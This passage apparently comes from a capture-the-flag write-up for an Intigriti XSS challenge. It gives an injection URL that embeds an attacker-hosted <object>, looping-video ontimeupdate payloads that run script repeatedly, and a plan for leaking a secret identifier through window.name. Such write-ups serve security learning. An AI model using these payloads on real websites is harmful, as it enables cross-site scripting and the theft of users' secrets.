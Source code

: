 To do so, we need to develop two answer the following questions:
1. How can we have script permanently executed? Something like a loop? 
2. How can we leak the identifier? We surely need something like cross-origin communication between our scripts and the challenge.

## The exploit

After the first few hints, I discovered that I can include `<object>` tags, pointing to the attacker page (in the future in my case `localhost`) and including script. So doing the url: `https://challenge-0421.intigriti.io/?error=<object data=http://localhost:3001/xss.html>` will include the page at `xss.html` and will even execute any script from that domain. So, basically we already have some kind of XSS, but it's execution is not on the challenge page.

### Having dynamic script execution
After having a look at all the possible HTML events at https://developer.mozilla.org/de/docs/Web/Events I saw the even `timeupdate` and made a quick PoC:
```html
<html>
<head></head>
<body>
    <video controls src=https://www.w3schools.com/jsref/mov_bbb.mp4 ontimeupdate="console.log('timeupdate')">
</body>
</html>
```

This worked, but needed user interaction to start the video. Luckily the `video` tag has an `autoplay` attribute. After setting this, the page errored out, saying that autoplaying videos is only possible when there are muted. So, after setting the `muted` attribute, the script was indeed executed multiple times. But only until the end of the video. I though about embedding a very long video, but that was not needed, since we can set the `loop` attribute, which will autoplay the video again at the end. Having all this together, got a dynamic script looping:
```html
<video muted loop autoplay src=https://www.w3schools.com/jsref/mov_bbb.mp4 ontimeupdate="console.log('timeupdate')">
```
This got one call per second. To speed things up, we could increase the `currentTime` property in the event handler:
```html
<video muted loop autoplay src=https://www.w3schools.com/jsref/mov_bbb.mp4 ontimeupdate="currentTime++;console.log('timeupdate')">
```

### Leaking the identifier
Since we can not create a new identifier or overwrite it, we need some kind of cross origin/window communication between our script injected by the `object` tag and the script, which will run in the `video` tag. The only way of cross origin/window communication that would somehow be possible, is setting the `window.name` property. The idea is the following:

1. Have an `inital` page at `localhost`, which opens a popup to a second page at `localhost`.
2. The second page opens another popup to `challenge`.
   1. The challenge can then read the name of the opener with `window.opener.name`.
   2. The challenge page opens with an `object` page at `localhost`.
   3. The challenge compares `window.opener.name` with `identifier`, communicates to `window.opener` that the comparison was greater or less.
   4. The `window.opener.name` changes to the next character and the loop begins again.
3. The `inital` page can take input from the `object` page, since it has the same origin.
4. The `inital` page can also change the location of the `window.opener`.
   1. Change location to `localhost` to set the `name` property.
   2. Change location to `challenge` to let the challenge read the `window.opener.name`.
